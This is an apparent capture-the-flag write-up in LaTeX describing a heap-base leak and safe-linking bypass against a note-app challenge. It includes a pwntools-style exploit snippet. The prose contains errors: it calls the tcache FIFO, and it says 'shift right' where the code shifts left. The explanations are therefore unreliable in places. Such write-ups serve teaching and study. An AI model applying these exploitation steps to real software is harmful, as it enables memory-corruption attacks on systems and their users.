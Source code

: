 \documentclass{report}
\begin{document}
    \paragraph{leak heap base and safe linking bypass}
    As regards heap leak, the same technique used previously is used but with the difference that the victim chunk will be of a size that allows us to insert it into the tcache after it is freed.\newline
    In fact, the tcache creates a FIFO list of freed chunks for each chunk size which will be incremented by 0x10.\newline
    the code follows:
    \begin{verbatim}
    #lek heap and safe linking
    malloc(0x90,2)
    delete(2)
    malloc(0x90,2)
    view(2)
    io.recvuntil("note : ")
    key=u64(io.recvline(False).ljust(8,b"\x00"))
    heap_base = key<<12
    success(f"SAFE LINKING KEY LEAK@: {hex(key)} ")
    success(f"HEAP BASE LEAK@: {hex(heap_base)} ")
    delete(1)
    delete(2)
    \end{verbatim}
    As you can see, we allocate a chunk of size 0x90 and make this free, after we reallocate it we will have a heap leak.\newline
    As regards the safe link bypass, the leak that we will generate will be the key that we will need to bypass the mitigation, in fact by performing an xor operation between the key and the pointer on the heap any address on the heap will bypass safe linking.\newline
    Finally, by shifting the key to the right we will have the base of the heap.
    \begin{figure}[htbp]
        \centering
        \texttt{[image: leak\_heap\_heap\_chall.png]}
        \caption{heap leak}
        \label{fig:enter-label}
    \end{figure}
\end{document}
